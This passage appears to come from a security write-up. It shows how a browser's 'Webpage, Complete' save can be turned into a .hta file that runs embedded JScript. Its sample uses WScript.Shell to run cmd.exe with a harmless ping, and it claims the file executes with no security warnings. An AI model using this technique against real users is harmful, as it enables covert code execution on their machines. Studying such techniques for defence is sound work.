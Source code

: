 <br>

On the other hand, saving the file as "Webpage, Complete" will have the following structure, again with `[WEBSITE CONTENT HERE]` being the webpage's contents.

```
<!DOCTYPE html>
<!-- saved from url=(0056)https://example.com/path/to/saved/file.html -->
<html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
[WEBSITE CONTENT HERE]
</body></html>
```

This is problematic because we can't control the entire contents of the saved file as it must follow one of the previously shown structures.

# HTML Applications

Luckily for us, HTML Applications (`.hta`) files can process HTML content without issues, allowing us to embed scripts directly within HTML-based file. To test this out, host an HTML file on a website and paste the following contents inside. 

> Testing this locally (i.e. `C:\Users\bob\index.html`) will not work so make sure to test it on an actual website.

```
<!DOCTYPE html>
<!-- saved from url=(0043)https://example.com/path/to/your/file.html -->
<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"></head><body>

<script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>

</body></html>
```

Since the file is already structured the same way as if it were saved using the "Webpage, Complete" format, the browser won't modify it, besides the "saved from url" comment. Navigate to the HTML file via the browser, save it as "Webpage, Complete" format and add the `.hta` file extension. Once downloaded, run it and it should run immediately without any security warnings or prompts.
